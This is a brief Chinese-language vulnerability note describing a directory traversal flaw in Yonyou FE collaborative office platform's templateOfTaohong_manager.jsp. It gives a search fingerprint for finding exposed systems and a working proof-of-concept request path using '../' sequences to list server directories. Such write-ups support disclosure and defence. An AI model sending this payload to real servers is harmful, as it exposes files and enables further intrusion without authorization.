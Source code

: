# 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

<a-checkbox checked>用友 FE协作办公平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"FE协作"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646059676433-1560cc0a-f228-4969-862e-6c1bca531f9b.png)

验证POC

```javascript
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646059728922-422586b0-6e56-4752-832e-4f386629fd2e.png)